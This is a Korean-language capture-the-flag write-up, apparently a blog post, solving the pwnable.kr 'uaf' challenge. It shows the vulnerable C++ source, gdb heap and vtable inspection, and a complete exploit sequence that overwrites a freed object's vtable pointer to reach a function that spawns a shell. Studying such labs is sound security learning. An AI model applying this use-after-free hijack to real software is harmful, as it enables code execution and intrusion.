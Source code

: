 ```yaml
---
sort: 16
---
```


# uaf

home 디렉토리에 uaf.cpp파일에 소스코드가 들어있다.

```c++
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
}
```
Man class와 Woman class가 생긴게 거의 똑같이 생겨서 크기도 같을 것 같다. 따라서 왠지 둘이 heap영역에 할당될 때 서로 붙어서 할당이 될 것 같다. 

```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400ec4 <+0>:     push   %rbp
   
   ... (중략) ...

   0x0000000000400efb <+55>:    mov    $0x18,%edi
   0x0000000000400f00 <+60>:    callq  0x400d90 <_Znwm@plt>
   0x0000000000400f05 <+65>:    mov    %rax,%rbx
   0x0000000000400f08 <+68>:    mov    $0x19,%edx
   0x0000000000400f0d <+73>:    mov    %r12,%rsi
   0x0000000000400f10 <+76>:    mov    %rbx,%rdi
   0x0000000000400f13 <+79>:    callq  0x401264 <_ZN3ManC2ESsi>
   0x0000000000400f18 <+84>:    mov    %rbx,-0x38(%rbp)

   ... (중략) ...

   0x0000000000400f59 <+149>:   mov    $0x18,%edi
   0x0000000000400f5e <+154>:   callq  0x400d90 <_Znwm@plt>
   0x0000000000400f63 <+159>:   mov    %rax,%rbx
   0x0000000000400f66 <+162>:   mov    $0x15,%edx
   0x0000000000400f6b <+167>:   mov    %r12,%rsi
   0x0000000000400f6e <+170>:   mov    %rbx,%rdi
   0x0000000000400f71 <+173>:   callq  0x401308 <_ZN5WomanC2ESsi>
   0x0000000000400f76 <+178>:   mov    %rbx,-0x30(%rbp)
```

main함수 중 Man과 Woman이 할당되는 부분이다. `_Znwm`을 통해 24byte만큼 메모리 영역을 할당 받고, 그 후에 해당 영역과 함께 적절한 인자를 가지고 생성자를 호출하는 모습이다.<br>
`_Znwm`후에 반환값을 읽으면, 각각의 object가 할당된 메모리의 주소를 알 수 있다.

```gdb
(gdb) b* 0x0000000000400f05
Breakpoint 1 at 0x400f05
(gdb) b* 0x0000000000400f63
Breakpoint 2 at 0x400f63
(gdb) r
Starting program: /home/uaf/uaf

Breakpoint 1, 0x0000000000400f05 in main ()
(gdb) i r rax
rax            0x7ffc50 8387664
(gdb) c
Continuing.

Breakpoint 2, 0x0000000000400f63 in main ()
(gdb) i r rax
rax            0x7ffca0 8387744
```

Man과 Woman이 할당된 공간을 살펴보자.<br><br>
위는 Man, 아래는 Woman인데, 맨 첫 8byte에 virtual function table pointer가 들어있는 것을 확인할 수 있고, 그 뒤에 age값, 그 뒤에 name obj의 주소가 들어있는 것을 알 수 있다.

```gdb
Breakpoint 3, 0x0000000000400f7a in main ()
(gdb) x/20gx 0x7ffc50
0x7ffc50:       0x0000000000401570      0x0000000000000019
0x7ffc60:       0x00000000007ffc38      0x0000000000000031
0x7ffc70:       0x0000000000000004      0x0000000000000004
0x7ffc80:       0x0000000000000001      0x000000006c6c694a
0x7ffc90:       0x0000000000000000      0x0000000000000021

0x7ffca0:       0x0000000000401550      0x0000000000000015
0x7ffcb0:       0x00000000007ffc88      0x0000000000020351
0x7ffcc0:       0x0000000000000000      0x0000000000000000
0x7ffcd0:       0x0000000000000000      0x0000000000000000
0x7ffce0:       0x0000000000000000      0x0000000000000000
```

uaf는 use after free로 free된 영역을 다시 사용해서 발생하는 취약점이다.<br>
문제 해결의 시나리오는 다음과 같다.<br>
먼저 man, woman 객체를 free시킨다.<br>
그 후, man, woman과 크기가 같은 객체를 생성해서 man, woman이 사용했던 영역을 사용할 수 있도록 한 뒤, 해당 영역의 데이터값을 변조시킨다.<br>
그리고 man, woman에서 사용하는 함수를 호출하면 virtual function이기 때문에 해당 메모리 영역의 virtual table pointer값을 사용하게 되는데, 이 부분이 free가 되고 다른 object에 의해 수정이 되었기 때문에 여기서 프로그램의 흐름을 변조시킬 수 있다.<br>
man과 woman을 free한 다음에 똑같은 크기의 메모리를 다시 할당하면 man, woman이 사용하던 메모리 영역을 다시 할당받을 수 있는 것은, heap allocator의 특성으로, 여기에 대해서는 알아서 잘 공부해보자.<br>

```gdb
   0x0000000000400fcd <+265>:   mov    -0x38(%rbp),%rax
   0x0000000000400fd1 <+269>:   mov    (%rax),%rax
   0x0000000000400fd4 <+272>:   add    $0x8,%rax
   0x0000000000400fd8 <+276>:   mov    (%rax),%rdx
   0x0000000000400fdb <+279>:   mov    -0x38(%rbp),%rax
   0x0000000000400fdf <+283>:   mov    %rax,%rdi
   0x0000000000400fe2 <+286>:   callq  *%rdx
```

위는 main함수의 switch문에서 case1에 있는 man의 introduce함수 호출부분이다.<br>
먼저 man 객체의 첫번째 8byte에 있는 virtual function table pointer를 가져온 후, 해당 pointer의 값을 8 증가 시킨 후에 해당 영역에 있는 함수 포인터 값(여기서는 introduce 함수의 pointer값이 있을 것이다.)을 이용하여 호출하는 것을 볼 수 있다. 따라서 우리는 virtual table pointer값을 조작해서 case 1에서 introduce함수를 호출할 때 give_shell함수가 호출이 될 수 있도록 해야한다.<br>
Human의 vtable을 살펴보면 쉽게 give_shell의 함수 포인터가 있는 영역을 확인할 수 있다.<br>
따라서 코드상에서 introduce를 호출할 때 function table에 접근한 뒤 8byte를 더하기 때문에 give_shell function pointer가 저장되어있는 영역의 주소 - 8값(0x401588)으로 man의 virtual function table pointer를 바꾸면 된다.

```gdb
(gdb) x/10gx 0x0000000000401570
0x401570 <_ZTV3Man+16>: 0x000000000040117a      0x00000000004012d2
0x401580 <_ZTV5Human>:  0x0000000000000000      0x00000000004015f0
0x401590 <_ZTV5Human+16>:       0x000000000040117a      0x0000000000401192
0x4015a0 <_ZTS5Woman>:  0x00006e616d6f5735      0x0000000000000000
0x4015b0 <_ZTI5Woman>:  0x0000000000602390      0x00000000004015a0
(gdb) x/10i 0x000000000040117a
   0x40117a <_ZN5Human10give_shellEv>:  push   %rbp
   0x40117b <_ZN5Human10give_shellEv+1>:        mov    %rsp,%rbp
   0x40117e <_ZN5Human10give_shellEv+4>:        sub    $0x10,%rsp
   0x401182 <_ZN5Human10give_shellEv+8>:        mov    %rdi,-0x8(%rbp)
```

최종 payload는 다음과 같다.

```bash
# give_shell을 호출하기 위해 function pointer조작
uaf@pwnable:~$ python -c "print('\x88\x15\x40\x00\x00\x00\x00\x00')" > /tmp/dlfjs123123/input
# object의 크기 = 0x18 byte = 24 byte
uaf@pwnable:~$ ./uaf 24 "/tmp/dlfjs123123/input"
1. use
2. after
3. free
# man, woman free
3
1. use
2. after
3. free
# woman 영역이었던 공간 다시 할당받고 덮어쓰기
2
your data is allocated
1. use
2. after
3. free
# man 영역이었던 공간 다시 할당받고 덮어쓰기
2
your data is allocated
1. use
2. after
3. free
# m->introduce()를 통해 get_shell함수 호출
1
$ cat flag
```

```tip
## 알게 된 점

uaf
```